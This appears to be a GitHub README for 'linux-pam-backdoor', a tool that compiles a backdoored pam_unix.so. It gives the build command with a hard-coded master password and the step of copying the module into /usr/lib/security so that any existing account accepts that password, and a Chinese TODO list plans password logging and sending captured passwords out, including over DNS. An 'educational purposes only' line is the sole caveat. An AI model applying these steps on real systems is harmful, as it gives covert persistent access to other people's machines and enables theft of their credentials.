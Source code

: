 # linux-pam-backdoor         
Linux PAM Backdoor           
                             
This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## TODO
 - 添加密码记录
 - 添加发送远程密码
 - 添加使用dns协议发送密码

## Tips
遇到undefine yywrap等问题，使用`sudo apt-get install flex` 即可

## Usage
To generate the backdoored pam_unix.so, just run:
```
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host. 

```
cp pam_unix.so /usr/lib/security/
```

That's all. 

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only.
I am not responsible for the damage you might cause.

## Dependencies 

Tested with ubuntu 20.04: 
* 1.1.8 and older: failed to compile
* 1.2.0: worked
* 1.3.0 to 1.4.0: worked

The following packages where used
```bash
apt install -y  autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```
